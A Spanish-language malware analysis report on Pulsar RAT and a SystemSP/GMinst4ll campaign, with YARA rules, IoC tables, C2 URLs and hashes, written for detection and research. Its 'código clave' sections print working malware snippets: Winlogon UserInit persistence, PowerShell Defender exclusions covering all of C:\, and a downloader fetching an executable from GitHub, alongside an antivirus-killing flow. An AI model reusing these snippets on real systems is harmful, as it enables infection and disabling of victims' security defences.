        $field_enc_key = "FUeRrUAjh9FA" wide
        $field_sig     = "L6kE5zXkE8"   wide
        $field_tag     = "sfRGNA2Id1TUuxp" wide
        $method_antivm = "bRka9Mxr9TWSzm6S22qRIoP0K" wide
        $ns_obfusc     = "szgxkqqyqlqtnfcghslo" wide
        $str_pulsar    = "Pulsar.Client.Properties.Resources"

    condition:
        uint16(0) == 0x5A4D and (
            any of ($nonce*) or
            2 of ($field_enc_key, $field_sig, $field_tag, $method_antivm, $ns_obfusc) or
            $str_pulsar
        )
}
```

---

## Nuevos IoCs — Desofuscación con de4dot (2026-06-12)

### Pulsar RAT — Strings anti-VM/anti-debugging (desofuscados)

| String | Función |
|--------|---------|
| `PortConnectionAntiVM` | Check anti-VM por puertos TCP |
| `ProcessDebugPort` | Check anti-debugging (puerto de debug) |
| `ProcessExceptionPort` | Check anti-debugging (puerto de excepciones) |
| `ProcessAccessToken` | Manipulación de token de proceso |
| `ProcessLdtInformation` | Manipulación de LDT (Local Descriptor Table) |
| `ProcessIoPortHandlers` | Manipulación de puertos I/O |
| `FlagsManipulationInstructions` | Manipulación de flags de CPU |

### Pulsar RAT — Strings C2/funcionalidad (desofuscados)

| String | Función |
|--------|---------|
| `connectedClient`, `connected`, `ConnectionId`, `Port` | Gestión de conexión C2 |
| `set_RemotePort`, `get_RemotePort`, `set_LocalPort`, `get_LocalPort` | Configuración de puertos |
| `serverCertificate`, `Disconnect` | Certificado SSL y desconexión |
| `DOMAIN_PASSWORD`, `DOMAIN_CERTIFICATE`, `DOMAIN_VISIBLE_PASSWORD` | Robo de credenciales de dominio |
| `EncryptedPassword`, `strSessionKey` | Manejo de contraseñas cifradas |
| `PotentiallyVulnerablePasswords`, `Hostname`, `HttpRealm`, `PasswordField` | Robo de contraseñas guardadas |
| `GetExtendedTcpTable`, `SetTcpEntry` | Manipulación de conexiones TCP |
| `BCryptImportKey`, `BCryptDestroyKey` | API de criptografía Windows |
| `BCRYPT_AUTHENTICATED_CIPHER_MODE_INFO` | Estructura AES-GCM |

### Pulsar RAT — Strings ofuscados (probable config C2)

| String | Nota |
|--------|------|
| `x9lmnrXpyOpjkOzqZhj0yg1yripd` | No renombrado por de4dot |
| `myprsxgipoyrcddghhvzingxkor` | No renombrado por de4dot |
| `dUIPkhAMIou66GOhLjaDU6B9atSb2` | No renombrado por de4dot |
| `KM4R1EqIPoqFwt1z6n5HlvUnv7nJa` | No renombrado por de4dot |
| `IpgbRZrBAZ71gxQJ7PnBnSQsoW45h` | No renombrado por de4dot |
| `VgZ2El2H8H4iPQfAZgKz2s6d` | No renombrado por de4dot |
| `aeuhLEvfVIip` | No renombrado por de4dot |
| `YcGmeeFUVipSVrx4P8g4chkwz8u0` | No renombrado por de4dot |
| `hbJSPtA6DA7Xip86mu` | No renombrado por de4dot |
| `N1Ummog6IPxRWvIGoruRLyzQ2o` | No renombrado por de4dot |
| `Dyx6UY1VOE8rRnZsTiPac9` | No renombrado por de4dot |
| `Y4OGAR1sc5mZ23V4VrqmiP` | No renombrado por de4dot |

### Actualización tabla resumen IoCs

| Categoría | Antes | Ahora | Nuevos |
|-----------|-------|-------|--------|
| Hashes SHA256 | 2 | 2 | — |
| Blobs AES-GCM (nonce+tag) | 2 | 2 | — |
| Campos internos mapeados | 6 | 6 | — |
| Strings internos en claro | 12 | 12 | — |
| Comportamiento dinámico documentado | 1 | 1 | — |
| DLLs de GMinst4ll | 14 | 14 | — |
| Strings anti-VM/anti-debugging | 0 | 7 | +7 |
| Strings C2/funcionalidad | 0 | 18 | +18 |
| Strings ofuscados (config C2) | 0 | 12 | +12 |

### Nueva regla YARA — Pulsar RAT (strings desofuscados)

```yara
rule PulsarRAT_Deobfuscated_Strings {
    meta:
        description = "Detecta Pulsar RAT v1.6.6.0 por strings desofuscados con de4dot"
        author = "Malware Analyst"
        date = "2026-06-12"
        hash = "5b20cb36abbacc69ee5d0c7008f1ad081db2767625659b4bb8eba6ecc511bd2a"
        reference = "Analisis de4dot appy.exe"

    strings:
        $antivm1 = "PortConnectionAntiVM" wide
        $antivm2 = "ProcessDebugPort" wide
        $antivm3 = "ProcessExceptionPort" wide
        $c2_1    = "connectedClient" wide
        $c2_2    = "serverCertificate" wide
        $c2_3    = "DOMAIN_PASSWORD" wide
        $c2_4    = "EncryptedPassword" wide
        $crypto  = "BCRYPT_AUTHENTICATED_CIPHER_MODE_INFO" wide
        $obf1    = "x9lmnrXpyOpjkOzqZhj0yg1yripd" wide
        $obf2    = "KM4R1EqIPoqFwt1z6n5HlvUnv7nJa" wide
        $obf3    = "VgZ2El2H8H4iPQfAZgKz2s6d" wide

    condition:
        uint16(0) == 0x5A4D and (
            2 of ($antivm*) or
            2 of ($c2_*) or
            $crypto or
            2 of ($obf*)
        )
}
```

---

## Apéndice A: IoCs de Archivos .txt con Origen Exacto

Esta sección documenta los IoCs extraídos de archivos de análisis estático (strings, hashes, PE info) con su archivo fuente y número de línea para trazabilidad forense.

### URLs C2 con Origen

| URL | Tipo | Archivo Fuente | Línea |
|-----|------|----------------|-------|
| `https://pastebin.com/raw/E3s5iTTz` | HTTP GET | `malware_samples/gminst4ll/TREZ_cor 4.52.3.exe_strings.txt` | 2062 |
| `https://pastebin.com/raw/FgUMQ9vE` | HTTP GET | `malware_samples/gminst4ll/TREZ_cor 4.52.3.exe_strings.txt` | 2062 |
| `https://www.dropbox.com/scl/fi/5awp2xpk4r65t6dz0bmcu/SystemSP.rar` | HTTPS GET | `malware_samples/gminst4ll/TREZ_cor 4.52.3.exe_strings.txt` | 2062 |
| `https://api.telegram.org/bot7675556882:[TOKEN]/sendDocument` | HTTPS POST | `malware_samples/gminst4ll/TREZ_cor 4.52.3.exe_strings.txt` | 2062 |
| `https://api.telegram.org/bot7675556882:[TOKEN]/getUpdates` | HTTPS GET | `malware_samples/gminst4ll/TREZ_cor 4.52.3.exe_strings.txt` | 2062 |
| `https://www.reddit.com/user/Over_Media6257/comments/1s5bjdo/miks/.json` | HTTPS GET | `malware_samples/gminst4ll/TREZ_cor 4.52.3.exe_strings.txt` | 2062 |
| `https://github.com/boycots563/wlt56/raw/main/Windows%20Compatibility%20Agent.exe` | HTTPS GET | `malware_samples/systemsp/rodendron.vbs_strings.txt` | 10 |

### Direcciones IP con Origen

| IP | Puerto | Archivo Fuente | Línea |
|----|--------|----------------|-------|
| `8.8.8.8` | DNS | `malware_samples/systemsp/WinStatChecking.bat_strings.txt` | 72 |
| `127.0.0.1` | 34254 | `malware_samples/gminst4ll/TREZ_cor 4.52.3.exe_strings.txt` | 7272 |

### Rutas de Archivo con Origen

| Ruta | Propósito | Archivo Fuente | Línea |
|------|-----------|----------------|-------|
| `%PROGRAMDATA%\SystemSP\SystemSP\max.vbs` | Persistencia | `malware_samples/systemsp/max.vbs_strings.txt` | 7 |
| `%PROGRAMDATA%\SystemSP\SystemSP\babuchen.bat` | Killer AV | `malware_samples/systemsp/max.vbs_strings.txt` | 17 |
| `%PROGRAMDATA%\SystemSP\SystemSP\rodendron.vbs` | Descargador | `malware_samples/systemsp/rodendron.vbs_strings.txt` | 40 |
| `%PROGRAMDATA%\SystemSP\SystemSP\WinStatChecking.bat` | Bloqueador DNS | `malware_samples/systemsp/rodendron.vbs_strings.txt` | 40 |
| `%PROGRAMDATA%\TXT1` | Flag fase 1 | `malware_samples/systemsp/babuchen.bat_strings.txt` | 4 |
| `%PROGRAMDATA%\TXT2` | Flag fase 2 | `malware_samples/systemsp/babuchen.bat_strings.txt` | 4 |
| `%PROGRAMDATA%\WinDate32\WinMainTELE.vbs` | Persistencia secundaria | `malware_samples/rust_executables/appy.exe_strings.txt` | 10 |
| `C:\Windows\System32\drivers\etc\hosts` | Modificación DNS | `malware_samples/systemsp/WinStatChecking.bat_strings.txt` | 3 |

### Claves de Registro con Origen

| Clave | Valor | Archivo Fuente | Línea |
|-------|-------|----------------|-------|
| `HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\UserInit` | wscript.exe | `malware_samples/systemsp/max.vbs_strings.txt` | 17 |
| `HKLM\SOFTWARE\Policies\Microsoft\Windows\WindowsUpdate\DisableWindowsUpdateAccess` | 1 | `malware_samples/systemsp/babuchen.bat_strings.txt` | 74 |
| `HKLM\SOFTWARE\Policies\Microsoft\Windows\WindowsUpdate\AU\NoAutoUpdate` | 1 | `malware_samples/systemsp/babuchen.bat_strings.txt` | 75 |
| `HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System\EnableLUA` | 0 | `malware_samples/systemsp/babuchen.bat_strings.txt` | 83 |
| `HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnceEx\0001\RodendronLoader` | wscript.exe | `malware_samples/systemsp/rodendron.vbs_strings.txt` | 46 |

### Tareas Programadas con Origen

| Nombre | Comando | Archivo Fuente | Línea |
|--------|---------|----------------|-------|
| `Runtime Management Agent` | wscript.exe "%PROGRAMDATA%\WinDate32\WinMainTELE.vbs" | `malware_samples/systemsp/rodendron.vbs_strings.txt` | 41 |

### Dominios Bloqueados (hosts file) con Origen

| Dominio | Archivo Fuente | Línea |
|---------|----------------|-------|
| avast.com, www.avast.com, avg.com, www.avg.com, mcafee.com, www.mcafee.com, norton.com, www.norton.com, malwarebytes.com, www.malwarebytes.com, kaspersky.com, www.kaspersky.com, bitdefender.com, www.bitdefender.com, eset.com, www.eset.com, trendmicro.com, www.trendmicro.com, sophos.com, www.sophos.com, webroot.com, www.webroot.com, f-secure.com, www.f-secure.com, panda.com, www.panda.com, comodo.com, www.comodo.com, quickheal.com, www.quickheal.com, ahnlab.com, www.ahnlab.com, npav.net, www.npav.net, k7security.com, www.k7security.com, alyac.com, www.alyac.com, 360.cn, www.360totalsecurity.com, zonealarm.com, www.zonealarm.com, gdatasoftware.com, www.gdatasoftware.com, drweb.com, www.drweb.com, clamwin.com, www.clamwin.com, bullguard.com, www.bullguard.com, totalav.com, www.totalav.com, pcmatic.com, www.pcmatic.com, vipre.com, www.vipre.com, zemana.com, www.zemana.com, iobit.com, www.iobit.com, forticlient.com, www.forticlient.com, ashampoo.com, www.ashampoo.com | `malware_samples/systemsp/WinStatChecking.bat_strings.txt` | 6-69 |

### Hashes por Carpeta con Origen

| Carpeta | Archivo | SHA256 | Archivo Fuente | Línea |
|--------|---------|--------|----------------|-------|
| gminst4ll | GMinst4ll 2.03.rar | d70c31b02f88ad239507c47c9fbde3353b5b93b6892e48bf5ba25322aa667e77 | `malware_samples/gminst4ll/GMinst4ll 2.03.rar_hashes.txt` | 3-5 |
| systemsp | SystemSP.rar | a50e078598a08faa5ec554c36e58cf201f167e5f272b39f5107fffc6c44369f8 | `malware_samples/systemsp/SystemSP.rar_hashes.txt` | 3-5 |
| pulsar_rat | appy_patched.exe | eabe4c16caa0ad6e2228e10664a5add26202d5c68ce9a8ebd30481b7daded699 | `malware_samples/pulsar_rat/appy_patched.exe_hashes.txt` | 3-5 |
| pulsar_rat | beket.rar | 90a4e3651ce2fd6f7f3808c2c511d1f0c078932e44bea97ee4a32f2e04aecdd6 | `malware_samples/pulsar_rat/beket.rar_hashes.txt` | 3-5 |
| rust_executables | appy.exe | e5c606aebddf2f6f52d66c1667cd1790ca89e7d49ce206422a8d2375c3d7d176 | `malware_samples/rust_executables/appy.exe_hashes.txt` | 3-5 |
| github_c2 | Windows_Compatibility_Agent.exe | 2a867741dd5193e34df41a1af1f9d85e3f7d26287d4810b03b261e9b012c990a | `malware_samples/github_c2/Windows_Compatibility_Agent.exe_hashes.txt` | 3-5 |
| github_c2 | Windows_Compatibility_Agent_Host.exe | 3e686426821ad5f84300717bc3eeaa11810a2e23d9dfef2ea95758a692938bef | `malware_samples/github_c2/Windows_Compatibility_Agent_Host.exe_hashes.txt` | 3-5 |
| github_c2 | kamzat.exe | 4c6284337a4065cb397d02a8a67c460d0f1eee56f6a5af79534521606c695840 | `malware_samples/github_c2/kamzat.exe_hashes.txt` | 3-5 |
| github_c2 | postevak.exe | ea9ca99f7fd90071074649b1de5a004362f4aa3265809a26b48fa3b1017c90e2 | `malware_samples/github_c2/postevak.exe_hashes.txt` | 3-5 |

### Servicios AV Detenidos con Origen

| Servicio | Archivo Fuente | Línea |
|----------|----------------|-------|
| Panda Security Service | `malware_samples/systemsp/babuchen.bat_strings.txt` | 7 |
| MBAMService (Malwarebytes) | `malware_samples/systemsp/babuchen.bat_strings.txt` | 8 |
| Avast Antivirus | `malware_samples/systemsp/babuchen.bat_strings.txt` | 9 |
| AvgSvc (AVG) | `malware_samples/systemsp/babuchen.bat_strings.txt` | 10 |
| ekrn (ESET) | `malware_samples/systemsp/babuchen.bat_strings.txt` | 11 |
| Norton Security | `malware_samples/systemsp/babuchen.bat_strings.txt` | 12 |
| McShield (McAfee) | `malware_samples/systemsp/babuchen.bat_strings.txt` | 13 |
| Sophos | `malware_samples/systemsp/babuchen.bat_strings.txt` | 14 |
| Trend Micro | `malware_samples/systemsp/babuchen.bat_strings.txt` | 15 |
| Zonelabs (ZoneAlarm) | `malware_samples/systemsp/babuchen.bat_strings.txt` | 16 |
| F-Secure HIPS | `malware_samples/systemsp/babuchen.bat_strings.txt` | 17 |
| GData Antivirus | `malware_samples/systemsp/babuchen.bat_strings.txt` | 18 |
| DrWeb | `malware_samples/systemsp/babuchen.bat_strings.txt` | 19 |
| ClamWin | `malware_samples/systemsp/babuchen.bat_strings.txt` | 20 |

### Headers HTTP con Origen

| Header | Valor | Archivo Fuente | Línea |
|--------|-------|----------------|-------|
| User-Agent | Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 | `malware_samples/gminst4ll/TREZ_cor 4.52.3.exe_strings.txt` | 2062, 2221 |
| Accept | */* | `malware_samples/gminst4ll/TREZ_cor 4.52.3.exe_strings.txt` | 2062, 2221 |
| HTTP Methods | DELETE, GET, HEAD, OPTIONS, PUT, TRACE, CONNECT | `malware_samples/gminst4ll/TREZ_cor 4.52.3.exe_strings.txt` | 2306 |
| HTTP Versions | HTTP/1.0, HTTP/1.1, HTTP/2.0, HTTP/0.9 | `malware_samples/gminst4ll/TREZ_cor 4.52.3.exe_strings.txt` | 2302, 2375, 4217, 7174 |
| Transfer Encoding | chunked, deflate, gzip, br | `malware_samples/gminst4ll/TREZ_cor 4.52.3.exe_strings.txt` | 2306, 4421, 4443 |

### Proxies con Origen

| Tipo | Archivo Fuente | Línea |
|------|----------------|-------|
| Variables: HTTP_PROXY, http_proxy, HTTPS_PROXY, https_proxy, ALL_PROXY, all_proxy | `malware_samples/gminst4ll/TREZ_cor 4.52.3.exe_strings.txt` | 2385, 4485-4487 |
| Tipos: http, socks4, socks4a, socks, socks5 | `malware_samples/gminst4ll/TREZ_cor 4.52.3.exe_strings.txt` | 2385, 4484 |
| Registry: ProxyEnable, ProxyServer | `malware_samples/gminst4ll/TREZ_cor 4.52.3.exe_strings.txt` | 4487 |

### Contraseñas de RAR con Origen

| Contraseña | Uso | Archivo Fuente | Línea |
|------------|-----|----------------|-------|
| zoroz | Extracción SystemSP.rar | `malware_samples/gminst4ll/TREZ_cor 4.52.3.exe_strings.txt` | 2073-2101 |
| 4204 | Extracción GMinst4ll 2.03.rar | `malware_samples/gminst4ll/GMinst4ll_analysis.txt` | 2 |

---

## Apéndice B: Análisis Estático de Payloads GitHub C2 (2026-06-13)

### kamzat.exe - Análisis Detallado

**Archivo:** `malware_samples/github_c2/kamzat.exe`  
**Tamaño:** 12.4 MB  
**Tipo:** PE64 Python 3.13 compilado con PyInstaller  
**SHA256:** `4c6284337a4065cb397d02a8a67c460d0f1eee56f6a5af79534521606c695840`

**Dependencias Detectadas:**

| Categoría | Librerías |
|-----------|-----------|
| **Criptografía** | PyCryptodome (AES, SHA, HMAC, BLAKE2, keccak, etc.) |
| **HTTP/Red** | requests, urllib3, http.client, http.cookiejar |
| **Async** | asyncio (streams, tasks, events, protocols, etc.) |
| **Multiprocesamiento** | multiprocessing, threading |
| **SSL/TLS** | libssl-3.dll, libcrypto-3.dll (OpenSSL 3.x) |
| **Tokenización** | packaging._tokenizer, tokenize |

**Características:**
- **No URLs C2 maliciosas detectadas** en strings
- **No rutas de navegadores** (Chrome, Firefox, etc.)
- **No referencias a wallets** (Metamask, etc.)
- **No tokens/contraseñas** embebidos
- **Función probable:** Payload genérico o herramienta de utilidad (no infoStealer evidente)

**PE Info:**
- **Entry Point:** 0xda30
- **Image Base:** 0x140000000
- **Timestamp:** 1760712118
- **Imports:** USER32, COMCTL32, KERNEL32, ADVAPI32, GDI32

---

### postevak.exe - Análisis Detallado

**Archivo:** `malware_samples/github_c2/postevak.exe`  
**Tamaño:** 7.9 MB  
**Tipo:** PE64 Python 3.13 compilado con PyInstaller  
**SHA256:** `ea9ca99f7fd90071074649b1de5a004362f4aa3265809a26b48fa3b1017c90e2`

**Dependencias Detectadas:**

| Categoría | Librerías |
|-----------|-----------|
| **HTTP** | http.client, http.cookiejar |
| **SSL/TLS** | libssl-3.dll, libcrypto-3.dll (OpenSSL 3.x) |
| **Threading** | threading, _threading_local |

**Características:**
- **Más simple que kamzat.exe** (menos dependencias)
- **No PyCryptodome** (sin criptografía avanzada)
- **No requests/urllib3** (HTTP básico solo)
- **No asyncio** (sin capacidades async)
- **Función probable:** Payload simple o downloader básico

**PE Info:**
- **Entry Point:** 0xce30
- **Image Base:** 0x140000000
- **Timestamp:** 1752745419
- **Imports:** USER32, COMCTL32, KERNEL32, ADVAPI32, GDI32

---

### Comparación kamzat.exe vs postevak.exe

| Característica | kamzat.exe | postevak.exe |
|---------------|------------|--------------|
| **Tamaño** | 12.4 MB | 7.9 MB |
| **Criptografía** | PyCryptodome completo | Ninguna |
| **HTTP** | requests + urllib3 | http.client básico |
| **Async** | asyncio completo | Ninguno |
| **Multiprocesamiento** | multiprocessing completo | threading básico |
| **Complejidad** | Alta | Baja |
| **Función probable** | Payload avanzado | Payload simple/downloader |

---

### Flujo de Ejecución SystemSP (Reversing Completo)

#### max.vbs - Persistencia y Exclusiones

**Función:** Launcher principal con elevación UAC y persistencia

**Flujo:**
1. **Elevación UAC:** Solicita runas si no tiene privilegios
2. **Check mutex:** Verifica si `C:\ProgramData\TXT2` existe (ya ejecutado)
3. **Persistencia Winlogon:** Modifica `HKLM\...\Winlogon\UserInit` concatenando wscript.exe
4. **Exclusiones Defender:** Agrega exclusiones de rutas y procesos
5. **Ejecución:** Lanza `babuchen.bat`

**Código clave:**
```vbscript
' Persistencia Winlogon (concatena, no sustituye)
orig = WSHShell.RegRead("HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\UserInit")
If InStr(1, orig, "max.vbs", 1) = 0 Then
    WSHShell.RegWrite "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\Userinit", orig & ",wscript.exe """ & ScriptPath & """", "REG_SZ"
End If

' Exclusiones Defender
powershell -Command "Add-MpPreference -ExclusionPath 'C:\', 'C:\cmd.exe', 'C:\conhost.exe', 'C:\cvtres.exe', 'C:\Windows\Microsoft.NET\Framework64\v4.0.30319\MSbuild.exe', 'C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe', 'C:\Windows\System32\Wscript.exe' -ErrorAction SilentlyContinue; Add-MpPreference -ExclusionProcess 'appy.exe' -ErrorAction SilentlyContinue; Add-MpPreference -ExclusionProcess 'Service Runtime Management Agent.exe' -ErrorAction SilentlyContinue"
```

---

#### babuchen.bat - Killer AV y Destrucción de Windows Update

**Función:** Eliminación masiva de AV y destrucción de Windows Update

**Flujo:**
1. **Check mutex:** Verifica si `C:\ProgramData\TXT2` existe (ya ejecutado)
2. **Deshabilita UAC:** `EnableLUA = 0`
3. **Detiene 14 servicios AV:** Panda, MBAMService, Avast, AvgSvc, ekrn, Norton, McShield, Sophos, Trend Micro, Zonelabs, F-Secure, GData, DrWeb, ClamWin
4. **Elimina 39 carpetas AV:** Con takeown + icacls + rd /s/q
5. **Destruye Windows Update:** Elimina servicios wuauserv, UsoSvc, BITS, WaaSMedicSvc
6. **Bloquea actualizaciones:** `DisableWindowsUpdateAccess = 1`, `NoAutoUpdate = 1`
7. **Elimina tareas programadas:** Scheduled Start, UpdateOrchestrator
8. **Desactiva recuperación:** `reagentc /setreimage /path ""`
9. **Crea persistencia RunOnce:** RodendronLoader si TXT1 existe
10. **Bloquea Defender UI:** `Set-MpPreference -UILockdown $true`
11. **Elimina safeboot:** `bcdedit /deletevalue {current} safeboot`
12. **Crea mutex TXT2:** Marca como ejecutado
13. **Reinicia:** `shutdown /r /t 5 /f`

**Servicios AV detenidos:**
```
Panda Security Service, MBAMService, Avast Antivirus, AvgSvc, ekrn (ESET), 
Norton Security, McShield (McAfee), Sophos, Trend Micro, Zonelabs, 
F-Secure HIPS, GData Antivirus, DrWeb, ClamWin
```

**Carpetas AV eliminadas:**
```
Quick Heal, Net Protector 2022, K7 TotalSecurity, Avast, AVG, McAfee, Norton, 
AhnLab V3, ALYac, Trend Micro, 360 Total Security, Bitdefender, Malwarebytes, 
ESET, Kaspersky, Sophos, COMODO, Panda Dome, F-Secure, Webroot, ZoneAlarm, 
G DATA, DrWeb, ClamWin, BullGuard, TotalAV, PC Matic, Vipre, Zemana, 
IObit Advanced SystemCare, FortiClient, Ashampoo Anti-Virus
```

---

#### rodendron.vbs - Descargador GitHub C2

**Función:** Descarga payload desde GitHub y configura persistencia

**Flujo:**
1. **Elevación UAC:** Solicita runas si no tiene privilegios
2. **Descarga payload:** `Invoke-WebRequest` desde GitHub
3. **URL C2:** `https://github.com/boycots563/wlt56/raw/main/Windows%20Compatibility%20Agent.exe`
4. **Ruta destino:** `%TEMP%\Windows Compatibility Agent.exe`
5. **Espera descarga:** Monitorea tamaño del archivo hasta estabilizar (6 iteraciones)
6. **Ejecuta payload:** Lanza el ejecutable descargado
7. **Crea tarea programada:** "Runtime Management Agent" con WinMainTELE.vbs
8. **Ejecuta WinStatChecking.bat:** Bloqueador DNS/hosts

**Código clave:**
```vbscript
' Descarga desde GitHub
url = "https://github.com/boycots563/wlt56/raw/main/Windows%20Compatibility%20Agent.exe"
exePath = tempPath & "\Windows Compatibility Agent.exe"
WshShell.Run "powershell -Command ""Invoke-WebRequest -Uri '" & url & "' -OutFile '" & exePath & "'""", 0, True

' Tarea programada
taskCommand = "schtasks /create /tn ""Runtime Management Agent"" /tr ""wscript.exe """ & appDataPath & "\WinDate32\WinMainTELE.vbs"""" /sc onlogon /delay 0002:00 /rl highest /f"
```

---

### Conclusiones del Análisis Estático

1. **kamzat.exe y postevak.exe** son payloads Python genéricos sin IoCs maliciosos evidentes en strings
2. **kamzat.exe** tiene capacidades avanzadas (crypto, async, multiprocessing) pero sin C2 visible
3. **postevak.exe** es más simple, probablemente un downloader básico
4. **SystemSP scripts** tienen un flujo bien definido:
   - max.vbs → babuchen.bat → rodendron.vbs → WinStatChecking.bat
5. **Persistencia Winlogon concatena** el valor original (no lo sustituye)
6. **Exclusiones Defender** son agresivas (excluye C:\ completo)
7. **Destrucción de Windows Update** es completa (servicios + políticas + tareas)

---

## Apéndice C: Hallazgos Adicionales de Análisis Estático (2026-06-13)

### Comparación kamzat.exe vs Windows Compatibility Agent.exe

**Hashes SHA256:**
- kamzat.exe: `4C6284337A4065CB397D02A8A67C460D0F1EEE56F6A5AF79534521606C695840`
- Windows_Compatibility_Agent.exe: `2A867741DD5193E34DF41A1AF1F9D85E3F7D26287D4810B03B261E9B012C990A`

**Análisis:**
- Binarios diferentes (hashes distintos)
- Strings casi idénticos (49 diferencias de ~4750 líneas = ~1%)
- **Conclusión:** Probablemente versiones diferentes del mismo payload o compilaciones del mismo código con configuraciones ligeramente diferentes

---

### Investigación OSINT del Actor (boycots563)

**Búsqueda GitHub:**
- Usuario `boycots563` no encontrado en GitHub
- Repositorio `boycots563/wlt56` no encontrado (eliminado o privado)

**Conclusión:**
- El actor eliminó la infraestructura GitHub después de la detección
- Las URLs en rodendron.vbs ya no son válidas (404 o repo eliminado)
- Recomendación: Monitorear reaparición con otros nombres

---

### Re-análisis de Blobs Pulsar RAT

**Blobs de Alta Entropía:**
- Blob 1: offset=0x000B9CC8, size=1808, entropy=7.922, nonce=12B
- Blob 2: offset=0x000B9EC8, size=1808, entropy=7.921, nonce=12B

**Análisis:**
- Nonces de 12 bytes consistentes con AES-GCM
- No hay claves AES estáticas en el binario
- #US stream no encontrado en el heap
- **Conclusión:** Configuración C2 inaccesible sin análisis dinámico o hooking runtime

**Recomendación:**
- Requiere análisis dinámico con x64dbg/dnSpy para extraer config en runtime
- Alternativa: análisis de memoria (Volatility3) durante ejecución

---

### PROMOTIO.BAT

**Estado:** No encontrado en el proyecto
- El archivo mencionado en el plan de investigación no existe en el directorio de muestras
- Probablemente era un archivo de distribución externo o fue eliminado

---

**Pendiente:** Análisis dinámico para determinar la función real de kamzat.exe y postevak.exe

---

**Documentos relacionados:**
- `01_INFORME_PRINCIPAL_GMINST4LL.md` - Informe principal
- `02_BITACORA_FASES_GMINST4LL.md` - Bitácora de fases
- `04_OSINT_Y_CAMPANA_GMINST4LL.md` - Análisis de campaña
- `05_PENDIENTES_Y_PLAN_GMINST4LL.md` - Trabajo pendiente
- `06_METADATOS_ANALISIS_TXT_GMINST4LL.md` - Metadatos de análisis de archivos .txt
